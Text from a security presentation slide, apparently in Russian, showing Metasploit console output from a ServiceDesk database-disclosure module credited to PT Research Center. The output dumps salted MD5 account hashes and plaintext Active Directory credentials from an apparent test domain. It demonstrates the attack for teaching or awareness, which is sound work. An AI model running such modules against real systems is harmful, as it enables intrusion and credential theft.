

Сценарий 5: атака через смежные компоненты
[*] Exploit completed, but no session was created.
msf  exploit(servicedesk_db_disclosure) > exploit
[*] Reloading module...
……
[*] ServiceDesk user accounts (algorithm - md5($pass.$salt)): (username:md5hash:salt)
administrator:341b64d880b4de17139812a227bbf58f:1231052863318
……
[*] Active Directory accounts (DOMAIN\USERNAME : PASSWORD) :
TEST\Administrator : P@ssw0rd
……
[*] Exploit completed, but no session was created.
msf  exploit(servicedesk_db_disclosure) > info
Provided by:
  PT Research Center
  Yuri Goltsev <ygoltsev@ptsecurity.ru>
  https://twitter.com/ygoltsev